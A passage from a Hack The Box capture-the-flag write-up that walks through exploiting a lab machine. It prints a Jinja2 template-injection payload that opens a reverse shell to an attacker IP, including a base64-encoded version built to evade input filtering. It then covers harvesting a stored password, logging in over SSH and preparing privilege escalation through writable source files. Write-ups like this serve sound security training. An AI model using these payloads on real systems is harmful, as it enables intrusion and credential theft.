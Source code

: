 ![image](https://github.com/vsang181/Hackthebox/assets/28651683/dc502ff1-411c-48e5-a317-6f8408864c8d)

To progress, we decided to upload a shell using this command:

```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -i >& /dev/tcp/10.10.14.40/1234 0>&1').read() }}
```

However, we encountered an issue with certain characters not being accepted as input during key generation. To circumvent this, we base64 encoded the command, which led us to this revised version:

```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40MC8xMjM0IDA+JjE=" | base64 --decode | bash').read() }}
```

![image](https://github.com/vsang181/Hackthebox/assets/28651683/ccbbcb84-f397-457e-b451-7669b2e587e4)

The utilization of this revised payload successfully yielded a reverse shell.

![image](https://github.com/vsang181/Hackthebox/assets/28651683/fe089d64-3a9b-41b8-b92a-5b4129d8652a)

Upon exploration of the target machine, we discovered a hidden folder in the home directory of the user 'atlas' labeled '.config'.

Within this '.config' directory, we found a file path: "/.config/httpie/sessions/localhost_5000/admin.json".

Upon inspection, this file revealed the password for the user 'silentobserver'.

![image (1)](https://github.com/vsang181/Hackthebox/assets/28651683/44dd7f96-e241-4192-8411-48835324e053)

Utilizing this password to establish an SSH session with the machine allowed us to secure the user flag.

## Privilege Escalation

To explore the permissions for the user "atlas", we ran 'linpeas' on the target system, scanning for potential vulnerabilities that could be leveraged for privilege escalation.

The results from 'linpeas' were promising; we discovered a cleansed process at "/opt/tipnet".

![image](https://github.com/vsang181/Hackthebox/assets/28651683/7bc91e06-3730-40eb-b120-d6ee5f5e2ce8)

Notably, we located an executable for our SSH session at "/opt/tipnet/target/debug".

![image](https://github.com/vsang181/Hackthebox/assets/28651683/ca95bd9a-2222-44e3-ba5d-4f107efa78a3)

[TIPNet](https://www.rapiscansystems.com/en/products/rapiscan-threat-image-projection-network)

Upon investigating the "tipnet.d" file, we obtained the following output:

![image](https://github.com/vsang181/Hackthebox/assets/28651683/9576bfef-8853-4d95-a310-3996311afab8)

When we inspected the permissions for the files "/opt/crates/logger/src/lib.rs" and "/opt/tipnet/src/main.rs", we found we could edit them, thanks to our write permissions.
